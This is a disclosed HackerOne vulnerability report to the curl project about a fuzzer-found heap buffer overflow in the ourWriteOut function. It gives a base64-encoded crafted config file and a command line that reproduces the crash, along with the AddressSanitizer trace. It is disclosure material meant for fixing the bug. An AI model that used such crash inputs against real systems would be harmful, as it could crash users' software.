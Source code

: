 # Heap Buffer Overflow (READ of size 1) in ourWriteOut

## Report Details
- **Report ID**: 765664
- **URL**: https://hackerone.com/reports/765664
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-12-29T05:53:26.416Z
- **Disclosed**: 2021-01-08T15:08:01.810Z

## Reporter
- **Username**: geeknik
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
## Summary:
Whilst fuzzing the curl command line tool (built from commit 779b415) with AFL, ASAN and libdislocator, a heap buffer overflow was triggered when a crafted curl configuration file was loaded.

## Steps To Reproduce:
`echo "LXdAAAou" | base64 -d > test0070.conf`
`./curl -q -K test0070.conf file:///dev/null`

```
==1162==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x615000000a00 at pc 0x00000058fa99 bp 0x7ffd004d37d0 sp 0x7ffd004d37c8
READ of size 1 at 0x615000000a00 thread T0
    #0 0x58fa98 in ourWriteOut /root/curl/build-afl/src/../../src/tool_writeout.c:119:16
    #1 0x527643 in post_per_transfer /root/curl/build-afl/src/../../src/tool_operate.c:620:5
    #2 0x5233a2 in serial_transfers /root/curl/build-afl/src/../../src/tool_operate.c:2201:14
    #3 0x5233a2 in run_all_transfers /root/curl/build-afl/src/../../src/tool_operate.c:2372:16
    #4 0x521e67 in operate /root/curl/build-afl/src/../../src/tool_operate.c:2484:18
    #5 0x51eb29 in main /root/curl/build-afl/src/../../src/tool_main.c:314:14
    #6 0x7f3103a021e2 in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x271e2)
    #7 0x41c61d in _start (/root/curl/build-afl/src/curl+0x41c61d)

0x615000000a00 is located 0 bytes to the right of 512-byte region [0x615000000800,0x615000000a00)
allocated by thread T0 here:
    #0 0x49451d in malloc (/root/curl/build-afl/src/curl+0x49451d)
    #1 0x55557b in file2string /root/curl/build-afl/src/../../src/tool_paramhlp.c:68:14
    #2 0x4fb6df in getparameter /root/curl/build-afl/src/../../src/tool_getparam.c:2112:15
    #3 0x5620b2 in parseconfig /root/curl/build-afl/src/../../src/tool_parsecfg.c:235:13
    #4 0x4f87b1 in getparameter /root/curl/build-afl/src/../../src/tool_getparam.c:1826:10
    #5 0x514890 in parse_args /root/curl/build-afl/src/../../src/tool_getparam.c:2245:18
    #6 0x5218bb in operate /root/curl/build-afl/src/../../src/tool_operate.c:2423:26

SUMMARY: AddressSanitizer: heap-buffer-overflow /root/curl/build-afl/src/../../src/tool_writeout.c:119:16 in ourWriteOut
```

## Supporting Material/References:
```
curl 7.68.0-DEV (x86_64-pc-linux-gnu) libcurl/7.68.0-DEV zlib/1.2.11
Release-Date: [unreleased]
Protocols: dict file ftp gopher http imap pop3 rtsp smtp telnet tftp
Features: AsynchDNS IPv6 Largefile libz UnixSockets
```

## Impact

Application crash plus other as yet undetermined consequences

## Attachments
No attachments
